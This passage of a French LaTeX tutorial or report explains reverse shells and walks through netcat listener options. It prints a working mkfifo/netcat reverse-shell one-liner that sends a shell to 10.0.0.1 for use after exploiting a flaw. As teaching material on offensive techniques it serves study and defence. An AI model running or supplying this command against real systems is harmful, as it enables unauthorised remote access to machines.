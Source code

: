 Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ai pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsection{Différents types de reverse-shell}

\subsubsection{Netcat-reverse}

Imaginons qu’une faille nous permette d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de ports comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \texttt{[image: oui/Screens/Reverse-shell/reverse\_netcat.PNG]}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

